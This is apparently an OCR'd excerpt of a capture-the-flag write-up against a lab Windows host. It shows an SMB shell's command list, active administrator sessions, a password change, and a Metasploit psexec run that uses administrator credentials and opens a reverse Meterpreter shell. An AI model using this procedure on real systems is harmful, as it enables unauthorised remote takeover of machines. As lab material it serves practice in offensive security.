 ls {wildcard} - lists all the files in the current directory  
rm {file} - removes the selected file  
mkdir {dirname} - creates the directory under the current path  
rmdir {dirname} - removes the directory under the current path  
put {filename} - uploads the filename into the current path  
get {filename} - downloads the filename from the current path  
info - returns NetrServerInfo main results  
who - returns the sessions currently connected at the target host (admin required)  
close - closes the current SMB Session  
exit - terminates the server process (and this session)

# who  
host: \\10.10.14.229, user: ADMINISTRATOR, active: 30, idle: 26  
host: \\10.10.14.229, user: ADMINISTRATOR, active: 28, idle: 28  
host: \\10.10.14.206, user: administrator, active: 21, idle: 0  
# password  
New Password:

msf > use exploit/windows/smb/psexec  
msf exploit(windows/smb/psexec) > show options

Module options (exploit/windows/smb/psexec):

Name Current Setting Required Description  
---- --------------- -------- -----------  
RHOST yes The target address  
RPORT 445 yes The SMB service port (TCP)  
SERVICE_DESCRIPTION no Service description to to be used on target for pretty listing  
SERVICE_DISPLAY_NAME no The service display name  
SERVICE_NAME no The service name  
SHARE ADMIN$ yes The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share  
SMBDomain . no The Windows domain to use for authentication  
SMBPass no The password for the specified username  
SMBUser no The username to authenticate as

Exploit target:

Id Name  
-- ----  
0 Automatic

msf exploit(windows/smb/psexec) > set RHOST 10.10.10.63  
RHOST => 10.10.10.63  
msf exploit(windows/smb/psexec) > set smbpass 123456  
smbpass => 123456  
msf exploit(windows/smb/psexec) > set smbuser administrator  
smbuser => administrator  
msf exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.206:4444  
[*] 10.10.10.63:445 - Connecting to the server...  
[*] 10.10.10.63:445 - Authenticating to 10.10.10.63:445 as user 'administrator'...  
[*] 10.10.10.63:445 - Selecting PowerShell target  
[*] 10.10.10.63:445 - Executing the payload...  
[+] 10.10.10.63:445 - Service start timed out, OK if running a command or non-service executable...  
[*] Sending stage (179779 bytes) to 10.10.10.63  
[*] Meterpreter session 1 opened (10.10.14.206:4444 -> 10.10.10.63:49672) at 2018-05-17 21:14:07 +0200
